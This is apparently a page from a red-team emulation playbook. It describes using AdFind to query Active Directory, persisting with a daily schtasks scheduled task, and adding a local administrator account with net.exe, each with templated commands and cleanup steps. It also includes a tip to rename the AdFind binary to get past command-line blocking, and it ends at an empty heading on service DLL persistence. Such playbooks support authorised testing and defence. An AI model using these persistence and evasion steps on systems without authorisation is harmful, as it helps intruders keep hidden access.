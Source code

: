## AdFind - General use

Command-line Active Directory query tool

General usage notes for AdFind

### Prerequisites

- AdFind binary: http://www.joeware.net/freetools/tools/adfind/

### Notes

- If AdFind is blocked based on command line, consider renaming the binary

# Persistence

## Scheduled Task Persistence - via schtasks.exe

Use built-in schtasks.exe to persist by creating a scheduled task

### Guidance

```
CMD> schtasks /Create /SC DAILY /TN "{{ taskname }}" /TR "{{ command }}" /ST 09:00
```

### Cleanup

```
CMD> schtasks /delete /tn "{{ taskname }}" /f
```


## New user persistence - via net.exe

Use built-in net.exe to persist by creating a new local administrator user

### Guidance

```
- 'CMD> net user /add {{ username }} {{ password }}'
- 'CMD> net localgroup {{ group_name }} {{ username }} /add'
```

### Cleanup

```
CMD> net user /delete {{ username }}
```


## Windows Service Persistence - Service DLL + Registry Modification
